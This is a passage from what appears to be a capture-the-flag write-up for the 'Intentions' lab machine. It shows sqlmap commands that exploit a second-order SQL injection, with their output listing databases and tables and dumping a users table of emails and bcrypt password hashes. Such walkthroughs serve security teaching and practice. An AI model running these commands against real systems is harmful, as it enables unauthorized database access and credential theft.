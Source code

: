 #### Enumerate

I’ll add `--dbs` to the end and it prints the two db names:

```

oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 --dbs
...[snip]...
[16:43:51] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] intentions
...[snip]...

```

Replacing `--dbs` with `-D intentions --tables` will list the tables in `intentions`:

```

oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 -D intentions --tables
...[snip]...
[16:44:50] [INFO] fetching tables for database: 'intentions'
Database: intentions
[4 tables]
+------------------------+
| gallery_images         |
| migrations             |
| personal_access_tokens |
| users                  |
+------------------------+
...[snip]...

```

Replacing `--tables` with `-T users --dump` will dump that table:

```

oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 -D intentions -T users --dump                              
...[snip]...
Database: intentions
Table: users
[28 entries]
+----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
| id | email                         | name                     | genres                         | admin   | password                                                     | created_at          | updated_at          |
+----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
| 1  | steve@intentions.htb          | steve                    | food,travel,nature             | 1       | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa | 2023-02-02 17:43:00 | 2023-02-02 17:43:00 |
| 2  | greg@intentions.htb           | greg                     | food,travel,nature             | 1       | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m | 2023-02-02 17:44:11 | 2023-02-02 17:44:11 |
| 3  | hettie.rutherford@example.org | Melisa Runolfsson        | food,travel,nature             | 0       | $2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
```